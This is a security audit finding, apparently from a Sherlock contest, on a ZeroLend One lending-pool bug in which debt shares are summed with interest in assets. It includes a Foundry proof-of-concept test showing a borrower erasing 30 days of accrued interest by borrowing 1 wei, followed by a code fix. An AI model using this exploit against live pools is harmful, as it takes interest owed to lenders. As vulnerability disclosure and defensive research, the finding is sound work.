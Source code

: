 Great Jade Shetland

High

# `PositionBalanceConfiguration::getDebtBalance` returns shares instead of assets, allowing borrowers to bypass loan interest

### Summary

When users borrow from pools, some shares are "minted" and stored representing the borrowed amount at the time of loan issuance. With time, interest accumulates, where the shares amount remains the same but the corresponding debt value of those shares increases, which represents the extra assets that have to be paid by the borrower. However, when calculating the debt of a user (which should include the accumulated interest), `PositionBalanceConfiguration::getDebtBalance` returns the debt shares + the interest in assets.

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/configuration/PositionBalanceConfiguration.sol#L137-L140

When time passes by, `increase` will keep increasing as it represents the interest, but a borrower in this case, can issue a loan of 1 WEI, which sets his position's `lastDebtLiquidtyIndex` to the current index, nullifying any accumulated interest. The borrower ends up repaying X assets, where X represents the debt shares without any accumulated interest.

### Root Cause

`PositionBalanceConfiguration::getDebtBalance` is returning debt shares + interest, where `self.debtShares` represents the user's debt shares, while increase represents the accumulated interest in assets. This allows users to bypass any interest when repaying their loan, by borrowing 1 WEI just before repayment, this will set `increase` to 0, and will repay the debt shares amount of assets.

### Impact

Borrowers will be able to bypass loan interest, forcing the corresponding pool to suffer huge losses. 

### PoC

<details>
<summary>Test/POC</summary>

```solidity
contract USDCMocked is ERC20, ERC20Permit {
  constructor() ERC20('USDC', 'USDC') ERC20Permit('USDC') {}

  function mint(address account, uint256 value) public returns (bool) {
    _mint(account, value);
    return true;
  }

  function decimals() public pure override returns (uint8) {
    return 6;
  }
}

contract ContestTest is Test {
  // Core
  PoolFactory public poolFactory;
  Pool public poolImplementation;
  PoolConfigurator public configurator;
  DefaultReserveInterestRateStrategy public irStrategy;
  ICuratedVault internal vault;
  ICuratedVaultFactory internal vaultFactory;
  IPool internal pool;

  // Tokens
  WETH9Mocked public WETH;
  USDCMocked public USDC;

  // Oracles
  MockV3Aggregator public WETHOracle;
  MockV3Aggregator public USDCOracle;

  address public owner = makeAddr('owner');
  address internal allocator = makeAddr('allocator');
  address internal curator = makeAddr('curator');
  address internal guardian = makeAddr('guardian');
  address public bob = makeAddr('bob');
  address public alice = makeAddr('alice');
  address public borrower = makeAddr('borrower');

  function _setUpCore() internal {
    poolImplementation = new Pool();
    poolFactory = new PoolFactory(address(poolImplementation));
    configurator = new PoolConfigurator(address(poolFactory));
    poolFactory.setConfigurator(address(configurator));

    WETH = new WETH9Mocked();
    USDC = new USDCMocked();

    WETHOracle = new MockV3Aggregator(8, 2_600e8);
    USDCOracle = new MockV3Aggregator(8, 1e8);

    irStrategy = new DefaultReserveInterestRateStrategy(47 * 1e25, 0, 7 * 1e25, 30 * 1e25);
  }

  function _basicPoolInitParams() internal view returns (DataTypes.InitPoolParams memory p) {
    address[] memory assets = new address[](2);
    assets[0] = address(WETH);
    assets[1] = address(USDC);

    address[] memory rateStrategyAddresses = new address[](2);
    rateStrategyAddresses[0] = address(irStrategy);
    rateStrategyAddresses[1] = address(irStrategy);

    address[] memory sources = new address[](2);
    sources[0] = address(WETHOracle);
    sources[1] = address(USDCOracle);

    DataTypes.InitReserveConfig memory config = DataTypes.InitReserveConfig({
      ltv: 7500,
      liquidationThreshold: 8000,
      liquidationBonus: 10_500,
      decimals: 18,
      frozen: false,
      borrowable: true,
      borrowCap: 0,
      supplyCap: 0
    });

    DataTypes.InitReserveConfig[] memory configurationLocal = new DataTypes.InitReserveConfig[](2);
    configurationLocal[0] = config;
    configurationLocal[1] = config;

    address[] memory admins = new address[](1);
    admins[0] = address(this);

    p = DataTypes.InitPoolParams({
      proxyAdmin: address(this),
      revokeProxy: false,
      admins: admins,
      emergencyAdmins: new address[](0),
      riskAdmins: new address[](0),
      hook: address(0),
      assets: assets,
      rateStrategyAddresses: rateStrategyAddresses,
      sources: sources,
      configurations: configurationLocal
    });
  }

  function _setUpPool() internal {
    poolFactory.createPool(_basicPoolInitParams());
    IPool poolAddr = poolFactory.pools(0);
    pool = IPool(address(poolAddr));
  }

  function _setUpCuratedVault() internal {
    CuratedVault instance = new CuratedVault();
    vaultFactory = ICuratedVaultFactory(new CuratedVaultFactory(address(instance)));

    address[] memory admins = new address[](1);
    address[] memory curators = new address[](1);
    address[] memory guardians = new address[](1);
    address[] memory allocators = new address[](1);
    admins[0] = owner;
    curators[0] = curator;
    guardians[0] = guardian;
    allocators[0] = allocator;

    vault = vaultFactory.createVault(
      ICuratedVaultFactory.InitVaultParams({
        revokeProxy: true,
        proxyAdmin: owner,
        admins: admins,
        curators: curators,
        guardians: guardians,
        allocators: allocators,
        timelock: 1 weeks,
        asset: address(USDC),
        name: 'Vault',
        symbol: 'VLT',
        salt: keccak256('salty')
      })
    );
  }

  function _setCap(IPool pool_, uint256 newCap) internal {
    uint256 cap = vault.config(pool_).cap;
    bool isEnabled = vault.config(pool_).enabled;
    if (newCap == cap) return;

    PendingUint192 memory pendingCap = vault.pendingCap(pool_);
    if (pendingCap.validAt == 0 || newCap != pendingCap.value) {
      vm.prank(curator);
      vault.submitCap(pool_, newCap);
    }

    if (newCap < cap) return;

    vm.warp(block.timestamp + vault.timelock());

    vault.acceptCap(pool_);

    assertEq(vault.config(pool).cap, newCap, '_setCap');

    if (newCap > 0) {
      if (!isEnabled) {
        IPool[] memory newSupplyQueue = new IPool[](vault.supplyQueueLength() + 1);
        for (uint256 k; k < vault.supplyQueueLength(); k++) {
          newSupplyQueue[k] = vault.supplyQueue(k);
        }
        newSupplyQueue[vault.supplyQueueLength()] = pool_;
        vm.prank(allocator);
        vault.setSupplyQueue(newSupplyQueue);
      }
    }
  }

  function _setSupplyPool() internal {
    IPool[] memory supplyQueue = new IPool[](1);
    supplyQueue[0] = pool;

    vm.prank(allocator);
    vault.setSupplyQueue(supplyQueue);
  }

  function _syncOracles() internal {
    WETHOracle.updateRoundTimestamp();
    USDCOracle.updateRoundTimestamp();
  }

  function setUp() public {
    _setUpCore();
    _setUpPool();
    _setUpCuratedVault();

    _setCap(pool, type(uint184).max);
    _setSupplyPool();

    _syncOracles();
  }

  function testBypassInterest() public {
    uint256 USDCamount = 1_000e6;
    uint256 WETHamount = 1e18;

    USDC.mint(bob, USDCamount);
    USDC.mint(alice, USDCamount);
    USDC.mint(borrower, USDCamount);
    WETH.mint(borrower, WETHamount);

    // Bob deposits 1k USDC
    vm.startPrank(bob);
    USDC.approve(address(vault), type(uint256).max);
    vault.deposit(USDCamount, bob);
    vm.stopPrank();

    // Borrower supplies 1 WETH and borrows 500 USDC
    vm.startPrank(borrower);
    WETH.approve(address(pool), type(uint256).max);
    pool.supplySimple(address(WETH), borrower, WETHamount, 0);
    pool.borrowSimple(address(USDC), borrower, USDCamount / 2, 0);
    vm.stopPrank();

    vm.warp(block.timestamp + 30 days);

    _syncOracles();
    pool.forceUpdateReserve(address(USDC));

    // Debt is around 503 USDC
    assertEq(pool.getDebt(address(USDC), borrower, 0), 503_587_374);

    // Borow 1 to bypass interest
    vm.prank(borrower);
    pool.borrowSimple(address(USDC), borrower, 1, 0);

    // Debt is around 500 USDC
    assertEq(pool.getDebt(address(USDC), borrower, 0), 500_000_001);
  }
}
```
</details>

### Mitigation

In `PositionBalanceConfiguration::getDebtBalance`, return the debt assets + accumulated interest instead of debt shares.

```diff
function getDebtBalance(DataTypes.PositionBalance storage self, uint256 index) internal view returns (uint256 debt) {
- uint256 increase = self.debtShares.rayMul(index) - self.debtShares.rayMul(self.lastDebtLiquidtyIndex);
- return self.debtShares + increase;
+ return self.debtShares.rayMul(index);
}
```